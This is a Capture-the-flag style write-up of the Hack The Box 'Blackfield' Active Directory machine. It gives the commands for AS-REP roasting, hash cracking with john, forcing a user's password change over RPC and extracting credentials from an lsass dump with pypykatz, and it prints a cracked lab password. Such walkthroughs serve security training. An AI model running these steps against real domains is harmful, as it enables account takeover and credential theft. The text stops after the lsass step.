 ```yaml
---
title: "Writeup: Blackfield from Hack The Box"
author: Asier Núñez
pubDatetime: 2025-01-08T19:51:29.606Z
slug: blackfield-writeup
featured: false
draft: false
tags:
  - Windows
  - Active Directory
  - Security
  - Ethical Hacking
description: "Writeup for the Blackfield machine from Hack The Box, a Windows Active Directory"
---
```


# Enumeration

After the initial scan with `nmap`, we can see that the machine is a Widows Active Directory part of the `blackfield.local` domain.

![Port-Scan](@assets/images/writeups/htb/blackfield/port-scan.png)

| Port | Service      | Version                                 |
| ---- | ------------ | --------------------------------------- |
| 53   | dns          | Microsoft DNS                           |
| 88   | kerberos-sec | Microsoft Windows Kerberos              |
| 135  | msrpc        | Microsoft Windows RPC                   |
| 389  | ldap         | Microsoft Windows Active Directory LDAP |
| 445  | microsoft-ds | Microsoft Windows SMB                   |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP         |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP |
| 5985 | WinRM        | Microsoft Windows Remote Management     |

The WinRM could be useful once we have credentials to access the machine.
As for the rest of the services, we can see that we have the usual services for a Windows Active Directory.

# Initial Foothold

If we try to enumerate shares with a null session, we'll get an unauthorized error. So let's try to enumerate shares with the `guest` user.

```bash
smbmap -u 'guest' -H 10.129.93.184 --no-pass
```

![SMBMap](@assets/images/writeups/htb/blackfield/smbmap.png)

We can see that we have READ permissions on the `profiles$` share. If we try to access it, we'll see folders for different users.

```bash
smbclient \\\\10.129.93.184\\profiles$ -U guest
```

![SMBClient](@assets/images/writeups/htb/blackfield/smbclient.png)

We can save the users into a file and try to perform a kerberos attack.

```bash
smbclient \\\\10.129.93.184\\profiles$ -U guest -c ls | awk  '{print $1}' > users.txt
```

With these 314 users, we can try to perform an `AS-REP Roasting` attack with `GetUserSPNs.py`.

```bash
impacket-GetNPUsers -usersfile users.txt blackfield.local/ -dc-ip 10.129.93.184 -no-pass | grep -v "KDC_ERR_C_PRINCIPAL_UNKNOWN"
```

![NPUsers](@assets/images/writeups/htb/blackfield/npusers.png)

Now can try to crack the hash with `john`.

```bash
john hash --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt
```

![John](@assets/images/writeups/htb/blackfield/john.png)

```
support:#00^BlackKnight
```

Now we can use bloodhound to enumerate the domain.

```bash
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.129.93.184 -c all
```

Once we have the results, we can see that the `support` user has permissions to change the password of the `audit2020` user.

![BH-ForceChangePass](@assets/images/writeups/htb/blackfield/bh-forcechangepass.png)

We can now try to change the password of the `audit2020` user.

```bash
net rpc password AUDIT2020 'password123!@#' -U blackfield.local/support%#00^BlackKnight -S 10.129.93.184
```

![Net-RPC](@assets/images/writeups/htb/blackfield/net-rpc.png)

Let's verify that the password has been changed.

```bash
crackmapexec smb 10.129.93.184 -u audit2020 -p 'password123!@#'
```

![CME-Pass-Val](@assets/images/writeups/htb/blackfield/cme-pass-val.png)

If we chek for the shares, we can see that the `audit2020` user has access to the `forensic` share.

```bash
crackmapexec smb 10.129.93.184 -u audit2020 -p 'password123!@#' --shares
```

![CME-Audit-Shares](@assets/images/writeups/htb/blackfield/cme-audit-shares.png)

![SMBClient-Audit](@assets/images/writeups/htb/blackfield/smbclient-audit.png)

If we take a look at the files in the `forensic` share, we can see an lsass dump.

![LSASS-Dump](@assets/images/writeups/htb/blackfield/lsass-dmp.png)

Now with the help of `pypykatz`, we can extract the hashes from the dump.

```bash
pypykatz lsa minidump lsass.DMP
```

From this dump, we obtain the following hashes:

![WinRM](@assets/images/writeups/htb/blackfield/winrm.png)
